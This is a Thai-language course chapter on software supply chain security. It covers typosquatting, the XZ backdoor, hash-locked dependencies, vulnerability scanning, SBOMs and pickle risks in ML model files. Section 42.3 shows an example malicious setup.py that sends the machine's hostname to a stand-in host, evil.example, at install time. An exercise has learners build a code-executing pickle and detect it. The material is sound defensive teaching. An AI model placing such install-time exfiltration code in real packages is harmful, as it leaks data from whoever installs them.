

# บทที่ 42 · Supply chain security

> `pip install` คำสั่งเดียว ดึงโค้ดของคนที่คุณไม่รู้จักหลายสิบคนเข้ามารัน
> ด้วยสิทธิ์เดียวกับโปรแกรมของคุณ
>
> นี่คือช่องทางที่โตเร็วที่สุดในรอบหลายปี และเป็นเรื่องที่คนสาย data science
> เจอเยอะเป็นพิเศษ เพราะ dependency tree ของ ML ลึกมาก

## 42.1 ปัญหาในหนึ่งคำสั่ง

```bash
pip install pandas
```



**คำถามที่ตอบยาก:**

- ใครเขียน `six` และตอนนี้ยังดูแลอยู่ไหม
- ถ้าบัญชี PyPI ของเขาถูกยึด จะเกิดอะไรขึ้นกับคุณ
- **binary ที่ดาวน์โหลดมา ถูกสร้างจาก source ที่คุณเห็นบน GitHub จริงไหม**

```bash
# ดู dependency ทั้งหมดที่มีอยู่จริง
.venv/bin/pip list | wc -l
.venv/bin/pip install pipdeptree && .venv/bin/pipdeptree
```

โปรเจกต์ ML ทั่วไปมี dependency ทางอ้อมหลายร้อยตัว **คุณไว้ใจทุกตัวโดยปริยาย**

## 42.2 รูปแบบการโจมตี

| รูปแบบ | ทำอย่างไร | ตัวอย่างจริง |
|--------|-----------|--------------|
| **Typosquatting** | ตั้งชื่อคล้ายของดัง | `python-dateutil` vs `python-dateutils` |
| **Dependency confusion** | ปล่อยชื่อเดียวกับ package ภายในบริษัทขึ้น PyPI | ได้ผลกับหลายบริษัทใหญ่ |
| **บัญชีถูกยึด** | เจ้าของถูก phishing แล้วปล่อยเวอร์ชันมีพิษ | เกิดขึ้นซ้ำ ๆ ทุกปี |
| **ผู้ดูแลส่งมอบให้คนร้าย** | โครงการที่คนเดิมเหนื่อยแล้วมีคนอาสามาช่วย | **XZ backdoor (2024)** |
| **Build system ถูกเจาะ** | source สะอาด แต่ binary มีพิษ | SolarWinds |
| **โค้ดใน install script** | `setup.py` รันตอนติดตั้ง | พบบ่อยใน PyPI |

### XZ backdoor — กรณีที่ควรรู้ที่สุด

ปี 2024 มีคนใช้เวลา **สองปี** สร้างความน่าเชื่อถือในโครงการ `xz`
(library บีบอัดที่แทบทุกระบบ Linux ใช้) จนได้สิทธิ์เป็นผู้ดูแลร่วม
แล้วค่อยแทรก backdoor ที่เปิดทาง SSH เข้าเครื่อง

**สิ่งที่ทำให้เรื่องนี้น่ากลัว:**

- backdoor **ไม่ได้อยู่ใน git** แต่อยู่ในไฟล์ tarball ที่ปล่อยออกมา
- ซ่อนอยู่ในไฟล์ทดสอบที่ดูเหมือนข้อมูลสุ่ม
- **ถูกจับได้เพราะวิศวกรคนหนึ่งสังเกตว่า SSH ช้าลง 0.5 วินาที** ไม่ใช่เพราะเครื่องมือสแกน

> **บทเรียน: ไม่มีเครื่องมืออัตโนมัติตัวไหนจับเรื่องนี้ได้** — สิ่งที่ช่วยได้คือ
> การลด dependency ให้น้อยลง และการที่มีคนสังเกตความผิดปกติ

## 42.3 `pip install` รันโค้ดได้ตอนติดตั้ง

**หลายคนไม่รู้ข้อนี้** — `setup.py` เป็นโค้ด Python ที่รันตอนติดตั้ง

```python
# setup.py ของ package ที่มีพิษ
from setuptools import setup
import urllib.request, os

# โค้ดนี้รันทันทีที่คุณ pip install
try:
    urllib.request.urlopen("http://evil.example/?h=" + os.uname().nodename)
except Exception:
    pass

setup(name="innocent-looking-package", ...)
```

**ป้องกัน:**

```bash
# บังคับใช้ wheel เท่านั้น — ไม่รัน setup.py
pip install --only-binary :all: package

# ดูว่ามันจะติดตั้งอะไรบ้างก่อนลงจริง
pip install --dry-run package

# ติดตั้งในที่ที่แยกออกมา
python3 -m venv .venv       # ← ที่คอร์สนี้ทำมาตลอด (บทที่ 32.2)
```

> **นี่คือเหตุผลอีกข้อที่ PEP 668 บล็อก `pip install` ระดับระบบ** (บทที่ 32.2)
> การติดตั้งใน venv จำกัดความเสียหายไว้ในโปรเจกต์เดียว

## 42.4 ล็อกเวอร์ชัน — ขั้นพื้นฐานที่ต้องทำ

```bash
# ❌ เวอร์ชันเปลี่ยนได้ทุกครั้งที่ติดตั้ง
requests

# ⚠️ ยังเปลี่ยน patch version ได้
requests>=2.31,<3

# ✅ ล็อกทั้งเวอร์ชันและ hash
requests==2.32.3 \
    --hash=sha256:70761cfe03c773ceb22aa2f671b4757976145175cdfca038c02654d061d6dcc6
```

```bash
# สร้างไฟล์ล็อกพร้อม hash
pip install pip-tools
pip-compile --generate-hashes requirements.in -o requirements.txt

# ติดตั้งแบบบังคับตรวจ hash
pip install --require-hashes -r requirements.txt
```

**`--hash` คือสิ่งที่ทำให้ล็อกมีความหมายจริง** — ถ้าคนร้ายแทนที่ไฟล์บน PyPI
ด้วยเวอร์ชันเดียวกันแต่เนื้อหาต่าง การติดตั้งจะล้มเหลวทันที

**commit ไฟล์ล็อกลง git เสมอ** (บทที่ 30) — ไม่งั้นทุกคนในทีมได้เวอร์ชันต่างกัน

## 42.5 สแกนหาช่องโหว่

```bash
# Python
pip install pip-audit && pip-audit
pip-audit --fix                       # อัปเดตให้เลย

# Node
npm audit --production
npm audit fix

# ทั้งระบบ / container image
trivy fs .
trivy image myapi:latest
grype myapi:latest
```

**ต่อยอดจากบทที่ 25.8 และ 37.7** — ใส่ใน CI ให้รันทุก PR:

```yaml
# .github/workflows/security.yml
- run: pip install pip-audit
- run: pip-audit --strict          # ล้มเหลวถ้าเจอช่องโหว่
```

**เปิด Dependabot / Renovate** ให้เปิด PR อัปเดตให้อัตโนมัติ

> ⚠️ **อย่า merge PR อัปเดตอัตโนมัติโดยไม่มีเทสต์** — ไม่งั้นคุณเพิ่งสร้าง
> ช่องทาง supply chain ให้ตัวเอง เทสต์ในบทที่ 32 คือสิ่งที่ทำให้การอัปเดต
> อัตโนมัติปลอดภัยพอจะใช้ได้จริง

## 42.6 SBOM — รายการวัสดุของซอฟต์แวร์

**SBOM (Software Bill of Materials)** = รายการทุกอย่างที่อยู่ในระบบคุณ

```bash
pip install cyclonedx-bom
cyclonedx-py environment -o sbom.json

syft dir:. -o cyclonedx-json > sbom.json      # ครอบคลุมกว่า
```

**ประโยชน์จริงข้อเดียวที่ชัดที่สุด:** เมื่อมี CVE ร้ายแรงประกาศออกมา
คุณตอบได้ใน **1 นาที** ว่า "เราใช้ library ตัวนั้นไหม เวอร์ชันอะไร ที่ระบบไหนบ้าง"

ตอน Log4Shell หลายองค์กรใช้เวลา**หลายสัปดาห์**แค่จะตอบคำถามนี้

```bash
# มี SBOM แล้วตอบได้ทันที
jq '.components[] | select(.name | test("log4j"))' sbom.json
```

## 42.7 ความเสี่ยงเฉพาะของสาย data science / AI

นี่คือส่วนที่ต่างจาก web development ชัดเจน

### โมเดลที่ดาวน์โหลดมาคือโค้ดที่รันได้

```python
import torch
model = torch.load("model.pt")        # ⚠️ ใช้ pickle — รันโค้ดอะไรก็ได้
```

**`pickle` deserialize = รันโค้ด** (บทที่ 25.7) ไฟล์โมเดลจาก Hugging Face
หรือที่ไหนก็ตามที่เป็น `.pt`/`.pkl` **สามารถยึดเครื่องคุณได้ตอนโหลด**

```python
# ✅ ปลอดภัยกว่ามาก
model = torch.load("model.pt", weights_only=True)    # torch 2.x
```

```python
# ✅ ใช้ safetensors — format ที่ออกแบบมาไม่ให้รันโค้ดได้เลย
from safetensors.torch import load_file
weights = load_file("model.safetensors")
```

> **ถ้าเลือกได้ ใช้ `.safetensors` เสมอ** — Hugging Face ผลักดัน format นี้
> ด้วยเหตุผลนี้โดยตรง

### ความเสี่ยงอื่นของ ML

| ความเสี่ยง | คืออะไร |
|-----------|---------|
| **Model poisoning** | โมเดลถูกฝังพฤติกรรมซ่อนไว้ (backdoor ที่ trigger ด้วย input เฉพาะ) |
| **Dataset poisoning** | ข้อมูลฝึกถูกปนเปื้อน |
| **Notebook ที่ดาวน์โหลดมา** | `.ipynb` มีโค้ดที่รันได้ + output ที่อาจมี HTML/JS |
| **`pip install` จาก URL ในบทความ** | คนคัดลอกคำสั่งจากบล็อกโดยไม่ตรวจ |
| **Docker image ของ ML** | ใหญ่มาก มี dependency นับพัน ตรวจยาก |

```bash
# ตรวจโมเดลก่อนโหลด — ดูว่ามี pickle opcode ที่รันโค้ดไหม
python3 -c "
import pickletools, sys
with open(sys.argv[1],'rb') as f:
    for op, arg, pos in pickletools.genops(f):
        if op.name in ('GLOBAL','REDUCE','INST','OBJ','NEWOBJ','STACK_GLOBAL'):
            print(f'⚠️  {op.name} {arg}')
" model.pkl
```

## 42.8 การเซ็นและตรวจสอบที่มา

| เทคโนโลยี | ทำอะไร |
|-----------|--------|
| **Sigstore / cosign** | เซ็น artifact โดยไม่ต้องจัดการกุญแจเอง |
| **SLSA** | มาตรฐานระดับความน่าเชื่อถือของ build |
| **Reproducible builds** | สร้างจาก source เดิมได้ binary เหมือนเดิมทุก byte |
| **Provenance attestation** | หลักฐานว่า binary นี้มาจาก commit ไหน build ที่ไหน |

```bash
cosign verify --certificate-identity-regexp '.*' \
              --certificate-oidc-issuer-regexp '.*' \
              ghcr.io/org/image:tag
```

**reproducible build คือคำตอบของ XZ** — ถ้า tarball ที่ปล่อยออกมาต้องสร้างซ้ำได้
จาก git และได้ผลเหมือนเดิม การแทรกโค้ดที่ไม่มีใน git จะถูกจับได้ทันที

## 42.9 ลดพื้นที่เสี่ยงตั้งแต่ต้น

**วิธีที่ได้ผลที่สุดคือ "ใช้ dependency ให้น้อยลง"**

ก่อนเพิ่ม library ใหม่ ถามว่า:

| คำถาม | ทำไมสำคัญ |
|-------|-----------|
| stdlib ทำได้ไหม | `lab/server.py` ทั้งตัวใช้ stdlib ล้วน |
| ต้องการกี่ฟังก์ชัน | ถ้าใช้แค่ฟังก์ชันเดียว อาจเขียนเองได้ |
| มีคนดูแลอยู่ไหม | commit ล่าสุดเมื่อไร มีกี่คนดูแล |
| dependency ของมันมีกี่ตัว | ตัวเดียวอาจลากมาอีก 30 |
| ถ้าโครงการนี้หายไปพรุ่งนี้ จะทำอย่างไร | |

```bash
# ดูก่อนติดตั้งว่ามันลากอะไรมาบ้าง
pip install --dry-run --report - some-package | jq '.install | length'
```

## 42.10 Checklist

**พื้นฐาน**
- [ ] ใช้ venv / container แยกทุกโปรเจกต์
- [ ] มีไฟล์ล็อกเวอร์ชัน **พร้อม hash** และ commit ลง git
- [ ] `pip-audit` / `npm audit` รันใน CI
- [ ] เปิด Dependabot แต่**ไม่ merge อัตโนมัติโดยไม่มีเทสต์**

**ระดับถัดไป**
- [ ] มี SBOM และอัปเดตทุก release
- [ ] สแกน container image (`trivy`)
- [ ] ตรวจสอบลายเซ็นของ image/artifact
- [ ] มี private registry / mirror กัน dependency confusion

**สำหรับงาน ML โดยเฉพาะ**
- [ ] ใช้ `.safetensors` แทน `.pt`/`.pkl` เมื่อทำได้
- [ ] `torch.load(..., weights_only=True)` เสมอ
- [ ] โมเดลจากภายนอกโหลดในสภาพแวดล้อมที่แยกก่อน
- [ ] บันทึกที่มาของ dataset และ checksum
- [ ] ไม่รัน notebook ที่ดาวน์โหลดมาโดยไม่อ่านก่อน

## แบบฝึกหัด

1. รัน `pip list | wc -l` ใน venv ของโปรเจกต์นี้ — มีกี่ตัว รู้จักกี่ตัว
2. ติดตั้ง `pipdeptree` แล้วดูว่า `pytest` ลากอะไรมาบ้าง
3. รัน `pip-audit` — มีช่องโหว่ไหม
4. สร้าง `requirements.txt` พร้อม hash ด้วย `pip-compile --generate-hashes`
   แล้วลองแก้ hash ให้ผิด ดูว่า `--require-hashes` จับได้ไหม
5. สร้าง SBOM ด้วย `cyclonedx-py` แล้วใช้ `jq` ค้นหา package ตัวหนึ่ง
6. **เขียนไฟล์ pickle ที่รันคำสั่งตอนโหลด** (ใช้ `__reduce__`) แล้วตรวจจับมัน
   ด้วยสคริปต์ `pickletools` ในข้อ 42.7 — **ทำในเครื่องตัวเองเท่านั้น**
7. ดาวน์โหลดโมเดลเล็ก ๆ จาก Hugging Face แล้วดูว่าเป็น `.bin` หรือ `.safetensors`
   ถ้าเป็น `.bin` ลองหาเวอร์ชัน safetensors
8. ตรวจ `torch.load` ในโค้ดเก่าของคุณ — มี `weights_only=True` ครบไหม

***
[⬅ การตรวจจับและตอบสนอง](41-detection-and-response.md) · [สารบัญ](../README.md) · [GPU 101 ➡](46-gpu-101.md)
